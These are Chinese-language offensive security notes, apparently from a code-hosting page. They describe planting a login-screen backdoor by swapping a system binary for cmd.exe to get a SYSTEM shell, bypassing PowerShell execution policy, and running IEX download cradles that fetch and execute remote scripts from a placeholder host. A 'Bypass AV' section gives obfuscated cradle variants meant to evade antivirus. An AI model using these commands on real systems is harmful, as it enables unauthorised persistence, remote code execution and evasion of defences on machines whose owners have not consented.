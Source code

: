 ### 1.具有本地管理员权限、文件所有者及完全控制权限
2.修改待替换的文件名
3.将cmd.exe拷贝出后更改为待替换文件名(无需条件1)
4.将cmd.exe复制到待替换文件的目录(需本地管理员权限)
5.重启在登录界面时运行后门程序
6.获得系统权限的shell(nt authority\system)

## Powershell技巧

### | 管道符的作用是将一个命令的输出作为另一个命令的输入
; 分号用来连续执行系统命令
＆是调用操作符，它允许你执行命令，脚本或函数
双引号可以替换内部变量
双引号里的双引号，单引号里的单引号，写两遍输出

Get-Alias -name dir 查看别名
Get-ExecutionPolicy 查看当前执行策略
Set-ExecutionPolicy 设置执行的策略
Get-Host 查看powershell版本
Get-Content 查看文件内容
Get-Content test.txt  显示文本内容
Set-Content test.txt-Value “hello,word” 设置文本内容
Get-Process  查看当前服务列表
Get-Location 获取当前位置
Get-WmiObject -Class Win32_ComputerSystem |Select-object -ExpandProperty UserName 查看登录到物理机的用户

powershell有六种执行策略:
Unrestricted  权限最高，可以不受限制执行任意脚本
Restricted  默认策略，不允许任意脚本的执行
AllSigned  所有脚本必须经过签名运行
RemoteSigned  本地脚本无限制，但是对来自网络的脚本必须经过签名
Bypass   没有任何限制和提示
Undefined  没有设置脚本的策略
默认情况下，禁止脚本执行。除非管理员更改执行策略。Set-ExecutionPolicy

绕过执行策略执行:
powershell Get-Content 1.ps1 | powershell -NoProfile -
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://xxx.xxx.xxx/a.ps1')"
powershell -ExecutionPolicy bypass -File ./a.ps1
powershell -ExecutionPolicy unrestricted -File ./a.ps1

Invoke-Expression(IEX的别名):用来把字符串当作命令执行。
WindowStyle Hidden(-w Hidden):隐藏窗口
Nonlnteractive(-NonI):非交互模式，PowerShell不为用户提供交互的提示。
NoProfile(-NoP):PowerShell控制台不加载当前用户的配置文件。
Noexit(-Noe):执行后不退出Shell。
EncodedCommand(-enc): 接受base64 encode的字符串编码，避免一些解析问题

Bypass AV:
powershell.exe "$v1='powershell -c IEX';$v2='(New-Object Net.WebClient).Downlo';$v3='adString(''http://x.x.x.x/x.ps1'')';IEX ($v1+$v2+$v3)"
powershell.exe "$v1='powershell -c IEX';$v2='(New-Object Net.WebClient).Downlo';$v3='666(''http://x.x.x.x/x.ps1'')'.replace('666','adString');IEX ($v1+$v2+$v3)"
powershell.exe "$v1='powershell -c IEX';$v2='(New-Object Net.WebClient).DownloadString(''ht';$v3='tp://x.x.x.x/x.ps1'')';IEX ($v1+$v2+$v3)"
